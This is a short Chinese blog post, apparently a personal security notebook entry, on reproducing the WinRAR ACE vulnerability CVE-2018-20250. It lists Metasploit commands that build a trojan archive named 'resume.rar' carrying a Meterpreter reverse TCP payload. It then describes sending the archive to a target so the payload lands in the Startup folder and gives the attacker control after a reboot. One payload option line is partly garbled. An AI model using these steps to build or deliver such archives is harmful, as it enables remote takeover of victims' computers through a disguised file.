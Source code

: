 ```yaml
---
title: CVE-2018-20250(WinRAR代码执行)漏洞复现
tags: 
- CVE
- 漏洞
categories:
- 网络安全
top_img: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=500
cover: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=800
date: 2020-03-26 22:09:00
id: CVE-2018-20250
---
```


# 生成winrar木马
```
use exploit/windows/fileformat/winrar_ace

SET FILENAME resume.rar  # 木马文件名称
SET FILE_LIST /home/files.txt # 其他压缩文件目录文件
set PAYLOAD [PAYLOAD]. windows/meterpreter/reverse_tcp by default.  # 设置payload, 默认是windows/meterpreter/reverse_tcp

# 设置payload参数
... 

exploit # 生成木马文件在~/.msf4/local/目录下面.
```

# 利用

生成的压缩文件发送给目标, 目标解压rar文件,rar文件会将payload放在启动目录里面, 目标重启机器之后即可进行控制

